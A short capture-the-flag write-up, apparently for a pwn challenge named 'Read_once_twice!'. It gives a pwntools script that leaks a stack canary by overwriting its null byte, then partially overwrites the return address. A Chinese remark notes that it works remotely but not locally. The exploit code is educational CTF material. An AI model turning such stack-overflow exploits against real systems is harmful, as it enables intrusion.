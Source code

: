 # Read_once_twice!

```py
from pwn import *
context.arch="amd64"
context.log_level='debug'
while True:
    p=remote("127.0.0.1","50297")
    payload='a'*(0x28-16)
    p.sendlineafter("turned on?\n",payload)
    p.recvuntil(payload+'\n')
    canary=u64(p.recv(7).rjust(8,b'\x00'))
    p.sendafter("ance...\n",b'a'*(0x28-16)+p64(canary)+p64(0)+b'\xaa\xc1')
    p.interactive()
```
覆盖null字符泄漏canary+partial overwrite。不知道为啥本地无论如何都打不通，然而同样的脚本远程就行